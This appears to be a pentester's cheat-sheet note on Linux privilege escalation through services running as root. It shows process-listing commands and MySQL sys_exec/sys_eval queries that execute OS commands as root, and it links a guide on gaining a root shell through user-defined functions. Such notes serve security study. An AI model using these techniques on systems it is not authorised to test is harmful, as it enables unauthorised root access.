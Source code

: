 # Programs Running as Root

## Programs Running as Root

* the idea here is that if specific service is running as root and you can make that service execute commands as root
* look for a webserver, database or anything else like that
* a typical example of this is mysql, example is below

## Check Which Processes are Running

### Metasploit

```bash
ps
```

### Linux

```bash
ps aux
```

## MySQL

* if you find that MySQL is running as root and you have username and password to log in to the database
* you can issue the following commands

```bash
select sys_exec('whoami');
select sys_eval('whoami');
```

### If Neither of Those Work, Use a User Defined Function

* [https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/](https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)
